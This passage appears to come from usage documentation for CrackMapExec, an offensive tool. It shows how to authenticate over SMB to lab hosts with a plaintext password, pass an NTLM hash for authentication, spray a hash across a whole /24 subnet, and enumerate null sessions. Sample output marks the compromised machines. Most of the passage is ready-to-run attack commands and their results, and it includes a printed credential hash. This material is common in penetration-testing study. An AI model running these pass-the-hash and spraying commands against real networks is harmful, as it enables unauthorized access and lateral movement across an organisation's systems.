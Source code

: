 ```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23

Aug.20.19 14:42:43  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 14:42:43  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
```

------------------------------------------------------------------------
### User with Hash 

After obtaining credentials such as  
	agrande:1002:aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c:::  
you can use both the full hash or just the nt hash (second half)  
```
#~ cmx smb 10.10.33.123 -u username -H 'LM:NT'
#~ cmx smb 10.10.33.123 -u username -H 'NTHASH'
```
Spray an entire /24 subnet with a hash  
```
#~ cmx smb 10.10.33.0/24 -u agrande -H '13b29964cc2480b4ef454c59562e675c'
#~ cmx smb 10.10.33.0/24 -u agrande -H 'aad3b435b51404eeaad3b435b51404ee:13b29964cc2480b4ef454c59562e675c'
```

If multiple domains are in use, you may need to specify the target domain using -d  
For example authenticating to the domain labnet.com (using all caps seems to be more reliable)  
```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23 -d LABNET
```

------------------------------------------------------------------------
### Null Sessions

One interesting use-case is checking for null sessions over smb.  
Pass an empty user/password strings to the command.   
The [+] results indicate a success. 
```
#~ cmx smb 10.10.33.120-127 -u '' -p '' 

Aug.20.19 12:20:15  SMB         10.10.33.122:445  10.10.33.122 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 12:20:15  SMB         10.10.33.121:445  10.10.33.121 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 12:20:15  SMB         10.10.33.124:445  10.10.33.124 [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Aug.20.19 12:20:15  SMB         10.10.33.122:445  10.10.33.122 [-] OCEAN\: STATUS_ACCESS_DENIED 
Aug.20.19 12:20:15  SMB         10.10.33.121:445  10.10.33.121 [+] OCEAN\: 
Aug.20.19 12:20:15  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 12:20:15  SMB         10.10.33.125:445  10.10.33.125 [*] Windows 10.0 Build 17763 x64 (domain:OCEAN) (signing:False) (SMBv:3.0)
Aug.20.19 12:20:15  SMB         10.10.33.124:445  10.10.33.124 [+] OCEAN\: 
Aug.20.19 12:20:15  SMB         10.10.33.125:445  10.10.33.125 [-] OCEAN\: STATUS_ACCESS_DENIED 
Aug.20.19 12:20:15  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\: 
Aug.20.19 12:20:21         [!] Could not connect to 10.10.33.127, no route to host. Can you ping it? [!]
Aug.20.19 12:20:21         [!] Could not connect to 10.10.33.126, no route to host. Can you ping it? [!]

```
